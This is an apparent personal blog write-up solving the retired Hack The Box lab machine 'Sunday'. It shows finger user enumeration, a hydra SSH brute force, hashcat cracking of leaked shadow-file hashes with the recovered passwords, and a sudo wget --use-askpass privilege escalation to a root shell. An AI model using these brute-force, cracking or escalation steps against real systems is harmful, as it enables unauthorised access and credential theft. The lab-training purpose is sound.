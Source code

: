 ```yaml
---
date: '2024-08-12'
before : '2024-08-09'
after : '2024-08-13'
title: 'Hack The Box Sunday'
categories: ['C-SEC', 'hackthebox', 'full-machine', 'ENG']
summary: 'Solving "Sunday" machine from HTB'
thumbnail: '../contentImages/sunday/sunday.png'
---
```


## 1. Machine Info

Sunday is an easy-rated, retired machine from Hack the Box. Well, I really didn't like this one since it was mainly about guessing or bruteforcing the credentials, including hash-cracking.

![sunday](../contentImages/sunday/sunday.png)

But it was still a good machine to repeat some basic stuffs which we don't always have in our mind.

> As always, let's dive into the machine!

## 2. Recon

Starting with nmap scan:

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ sudo nmap 10.10.10.76 -Pn -sC -sV                                
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 03:45 EDT
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 03:48 (0:00:45 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
```
There is a service named "finger" on port 79. After a quick search:

> The Finger program/service is utilized for retrieving details about computer users. Typically, the information provided includes the user's login name, full name, and, in some cases, additional details.

I can't justify why someone would use this kind of service, but whatever.

## 3. Enumeration

Let's start with a basic interaction

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ echo "root" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46  
```
So it indeed shows us username. 


Let's try user enumeration from PentestMonkey.

```
──(hosan㉿kali)-[~/oscp/htb-box/sunday/finger-user-enum-1.0]
└─$ perl finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 10.10.10.76 -p 79
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

root@10.10.10.76: root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46         ..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
```
So we've got three user: root, sammy, sunny. Pretty obviously, root is (for now) out of scope.

## 4. Initial Foothold

Hmm, but I can't find any remote connection services. Let's try nmap once more with -p-

```
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE   REASON
79/tcp    open  finger    syn-ack ttl 59
111/tcp   open  rpcbind   syn-ack ttl 63
515/tcp   open  printer   syn-ack ttl 59
6787/tcp  open  smc-admin syn-ack ttl 59
22022/tcp open  unknown   syn-ack ttl 63
```

Oh, so there was a ssh service running on port 22022! 


But here was a tricky part: we had to guess the password of our user. It happens if we look at some really old machines from HTB. I tried with days.txt since our user and machine's name is sunday.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hydra -L users.txt -P /usr/share/wordlists/seclists/Passwords/days.txt ssh://10.10.10.76:22022  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-18 05:05:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12480 login tries (l:2/p:6240), ~780 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 12315 to do in 01:15h, 15 active
[STATUS] 155.33 tries/min, 466 tries in 00:03h, 12015 to do in 01:18h, 15 active
[STATUS] 141.57 tries/min, 991 tries in 00:07h, 11490 to do in 01:22h, 15 active
[STATUS] 136.07 tries/min, 2041 tries in 00:15h, 10440 to do in 01:17h, 15 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```

so as a result, we've got sunny:sunday.

```
┌──(hosan㉿kali)-[~]
└─$ ssh sunny@10.10.10.76 -p 22022                                              
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ 
```

Got it. But it is truly no fun to brute force or guess some random passwords.

## 5. Shell as sammy & root

I couldn't open user.txt. So let's try privesc. 


After playing around for a while, I found this:

```
sunny@sunday:/backup$ cat agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

So we have this password hash, and I really hate it. And don't forget, that :6445.. at the end is not relevant.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
hashcat (v6.2.6) starting in autodetect mode
(used autodetection)


┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ cat cracked.txt 
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

So I logged in as sammy. sudo -l shows us:

```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Looking at GTFObins:

```
-bash-5.1$ TF=$(mktemp)
-bash-5.1$ chmod +x $TF
-bash-5.1$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-5.1$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# 
```
So I got root. That's it!

## 6. Review

Nah, I really didn't like this one. I tried to find a more "logical" way to get into the machine, but at the end, it was just brute-forcing...

## 7. Source

- HTB 2024
- Me!
